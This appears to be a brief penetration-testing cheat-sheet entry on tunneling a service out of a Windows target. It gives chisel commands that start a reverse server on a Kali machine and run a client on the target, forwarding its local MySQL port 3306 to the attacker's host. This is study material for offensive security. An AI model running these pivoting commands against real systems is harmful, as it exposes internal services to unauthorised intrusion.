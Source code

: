 ## Windows - Service Tunneling

in order to forward a service from Windows target machine to our Kali:


on Kali machine:

```bash
sudo apt install chisel -y
chisel server -p 8000 --reverse
```


On Windows target machine:


```powershell
.\chisel.exe client <kali_ip>:8000 R:3306:127.0.0.1:3306
```
